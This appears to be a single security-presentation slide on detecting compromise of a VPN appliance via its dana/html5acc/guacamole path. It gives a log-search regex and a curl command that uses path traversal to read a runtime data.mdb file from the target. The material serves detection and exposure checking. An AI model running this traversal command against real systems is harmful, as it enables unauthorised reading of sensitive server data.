

# Indicator of Compromise
Search logs for URLs containing ? and ending with /dana/html5acc/guacamole/ (Regular Expression: ?.*dana/html5acc/guacamole/ )

Linux command: curl --path-as-is -s -k "$URL/dana-na/../dana/html5acc/guacamole/../../../../../../../data/runtime/mtmp/lmdb/randomVal/data.mdb?/dana/html5acc/guacamole/"